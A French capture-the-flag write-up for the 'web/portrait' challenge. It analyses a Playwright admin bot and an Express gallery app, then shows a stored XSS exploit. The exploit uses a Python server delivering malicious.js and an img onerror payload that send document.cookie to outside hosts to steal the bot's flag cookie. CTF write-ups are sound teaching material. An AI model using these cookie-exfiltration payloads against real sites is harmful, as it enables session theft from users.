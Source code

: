 # 🖼️ Challenge : `web/portrait (40 solves remake)`

### 🔐 Niveau de difficulté : **7 / 10**

---

## 🎯 Objectif

Exploiter une **vulnérabilité XSS (Cross-Site Scripting)** pour voler le cookie contenant le **flag** du bot administrateur.

---

## 🧠 Analyse du code source

### 🧍‍♂️ `bot.js`

- Utilise **Playwright** pour simuler un navigateur headless.
    
- Filtre XSS **désactivé** → vulnérable.
    
- Injecte un cookie `flag` dans le contexte navigateur.
    
- Impose un délai de 15 secondes avant de fermer la page.
    
- Met en place un **rate limit** pour éviter les abus.
    

---

### ⚙️ `index.js` (bot)

- Route `/` : formulaire d'envoi d'URL au bot.
    
- Route `/bot` : le bot visite l’URL **si elle correspond à** :
    
    ```regex
    ^http(|s):\/\/52\.188\.82\.43:8070.*
    ```
    
    → Seules les URLs **du site lui-même** sont autorisées.
    
- Vérification avec **regex**, aucune redirection externe autorisée.
    
- Limitation de fréquence sur `/bot`.
    

---

### 🖥️ `index.js` (application principale)

- Serveur Express.js classique :
    
    - Gestion des inscriptions / connexions.
        
    - Gestion des **portraits utilisateur** via MongoDB.
        
- Route `/api/portraits/:username` : récupère les portraits.
    
- Route `/gallery` : affiche les portraits.  
    → Si une image est manquante, une image par défaut (montagne ⛰️) est utilisée.
    
- Utilisation de **jQuery 1.8.1** (vulnérable).
    

---

### 🖼️ `gallery.html`

- Affiche les portraits via les données de l’API.
    
- Gestion des erreurs de chargement d’image avec une image fallback.
    
- Code JavaScript côté client manipulant les entrées **non échappées**.
    

---

## ⚠️ Vulnérabilités identifiées

- Utilisation de **jQuery 1.8.1**, vulnérable à plusieurs attaques XSS.
    
- Le champ `source` d’un portrait est **injecté tel quel** dans le DOM.
    
- Le **bot visite des pages du site contenant du JS** sans protection.
    
- Aucune validation sur le contenu injecté dans les portraits.
    

---

## 💥 Exploitation

### ✅ Étape 1 — Préparer un serveur malveillant

```python
# serveur.py
from http.server import SimpleHTTPRequestHandler, HTTPServer

class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/malicious.js":
            self.send_response(200)
            self.send_header('Content-Type', 'text/javascript')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.send_header('Access-Control-Allow-Credentials', 'true')
            self.send_header('X-Content-Type-Options', 'nosniff')
            self.end_headers()
            self.wfile.write(
                b"fetch('https://aojveb29.requestrepo.com/?flag='+document.cookie)"
            )
        else:
            self.send_response(404)
            self.end_headers()

server_address = ('', 8081)
httpd = HTTPServer(server_address, CustomHandler)
print("🚀 Serveur malveillant sur http://localhost:8081")
httpd.serve_forever()
```

---

### ✅ Étape 2 — Créer un portrait avec payload XSS

```html
<img/src=x onerror=fetch("//156.238.233.93:9999/?flag="+document.cookie);>
```

---

### ✅ Étape 3 — Déclencher le bot

Soumettez au bot l’URL de votre galerie :

```
http://52.188.82.43:8070/gallery?username=<votre_nom_utilisateur>
```

---

### ✅ Étape 4 — Récupérer le flag

Le bot exécutera votre JavaScript malveillant.  
Le cookie `flag` sera exfiltré vers votre serveur, et visible dans vos logs :

```
GET /?flag=FLAG{...}
```

---

## 📋 Résumé des étapes

|Étape|Action|
|---|---|
|1️⃣|Démarrer un serveur malveillant|
|2️⃣|Créer un portrait avec payload XSS|
|3️⃣|Soumettre l’URL au bot|
|4️⃣|Observer les requêtes contenant le flag|

---

## 🧩 Conclusion

Ce challenge démontre :

- L’importance de valider les **entrées utilisateur**.
    
- Les **risques liés aux vieilles bibliothèques JS** (ici : jQuery 1.8.1).
    
- Comment une **faille XSS couplée à un comportement automatisé** peut compromettre des données sensibles comme un flag.
    


